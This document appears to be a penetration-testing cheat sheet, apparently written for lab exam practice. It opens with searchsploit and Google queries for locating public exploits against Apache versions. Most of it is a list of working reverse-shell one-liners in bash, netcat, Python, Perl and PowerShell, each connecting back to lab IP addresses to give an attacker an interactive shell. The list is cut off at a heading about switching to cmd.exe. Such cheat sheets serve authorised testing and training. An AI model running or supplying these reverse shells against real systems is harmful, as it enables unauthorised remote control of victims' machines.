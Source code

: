 
## Find xploits - Searchsploit and google

Where there are many exploits for a software, use google. It will automatically sort it by popularity.

```bash
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

## Reverse Shells
https://www.revshells.com/

***escape quotes if running from command line*** (ex., ((\"192.168.49.232\",80)))
```bash
# Linux
	bash -i >& /dev/tcp/10.11.1.111/4443 0>&1
	bash -c "bash -i >& /dev/tcp/$ip/$lport 0>&1"
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.111 4443 >/tmp/f
	nc -e /bin/sh 10.11.1.111 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.1.111",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="10.11.1.111";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe 10.11.1.111 4443
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# The below drops into a cmd.exe shell [ $ps -> into PowerShell / $ps=$false -> to go back to cmd.exe]:

```